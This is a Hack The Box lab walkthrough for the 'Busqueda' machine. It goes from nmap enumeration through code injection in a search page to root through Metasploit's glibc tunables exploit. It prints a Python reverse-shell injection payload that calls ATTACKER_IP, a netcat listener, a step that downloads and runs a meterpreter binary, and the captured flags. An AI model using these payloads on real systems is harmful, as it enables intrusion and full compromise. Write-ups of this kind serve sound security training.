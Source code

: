 
# HTB Walkthrough - Busqueda

**Machine Name**: Busqueda  
**Target IP**: 10.129.178.117  

---

## 🧭 Enumeration

### 🔍 Nmap Scan

```bash
nmap -sV -sC -oA nmap/Busqueda 10.129.178.117
```

**Results:**

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52
```

> Add to /etc/hosts:
```
10.129.178.117  searcher.htb
```

---

## 🌐 Web Enumeration

- Browsing to `http://searcher.htb/` brings up a custom search engine.
- The site takes input and appends it to a search URL (e.g., Bing).
- Input like `'+'` shows it's vulnerable to code injection.

### 🧪 Exploiting Code Injection

Python-based reverse shell payload:

```python
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ATTACKER_IP',PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#
```

Setup reverse shell listener:

```bash
nc -nlvp 9999
```

- Submit payload via search input → Shell received.

Stabilize shell:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
# Press Ctrl+Z
stty raw -echo; fg
```

---

## 🧑‍💻 User Flag

```bash
cat user.txt
# 54a7ce58f5cb31e7226f192a4d687df1
```

---

## ⬆️ Privilege Escalation

### 🔍 No sudo or SUID escalation found.

Use Metasploit local exploit suggester:

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD linux/x64/meterpreter_reverse_tcp
set LHOST <ATTACKER_IP>
run

# On victim:
wget http://<ATTACKER_IP>:8888/meterpreter.elf
chmod +x meterpreter.elf
./meterpreter.elf

# In meterpreter:
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```

### Exploitable Vulnerabilities:

- CVE-2022-0847 (DirtyPipe) → Failed
- CVE-2023-0386 (OverlayFS) → Failed
- glibc_tunables_priv_esc → ✅ **Succeeded**

```bash
use exploit/linux/local/glibc_tunables_priv_esc
set SESSION 1
run
```

```bash
meterpreter > getuid
# Server username: root
```

---

## 🔐 Root Flag

```bash
cat /root/root.txt
# a5e11ed334c867dcbc276a41796289f6
```

---

✅ **Root shell obtained via glibc tunables LPE.**
